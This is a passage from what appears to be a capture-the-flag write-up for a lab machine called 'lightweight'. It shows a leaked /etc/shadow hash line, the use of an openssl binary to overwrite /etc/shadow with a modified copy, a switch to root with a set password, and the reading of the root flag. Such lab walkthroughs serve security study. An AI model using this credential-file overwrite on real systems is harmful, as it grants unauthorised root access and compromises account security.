ldapuser2:$6$xJxPjT0M$1m8kM00CJYCAgzT4qz8TQwyGFQvk3boaymuAmMZCOfm3OA7OKunLZZlqytUp2dun509OBE2xwX/QEfjdRQzgn1:17691:365:99999:7:::
...
Open nano and copy/paste your modified /etc/shadow into a file:
[ldapuser1@lightweight /]$ nano /home/ldapuser1/openssltmp/shadow.modified
Now you just have to write the modified /etc/shadow to the system using openssl:
[ldapuser1@lightweight /]$ cat /home/ldapuser1/openssltmp/shadow.modified | /home/ldapuser1/openssl enc -out /etc/shadow
And su to root!
[ldapuser1@lightweight ~]$ su root
Password: smile
[root@lightweight ldapuser1]# cd ~
[root@lightweight ~]# ls
addusers.sh base.ldif groups.ldif manageusers.sh passwd users.ldif
anaconda-ks.cfg group manageusers.log openscap_data root.txt
[root@lightweight ~]# cat root.txt
f1d4e309c5a6b3fffff74a8f4b2135fa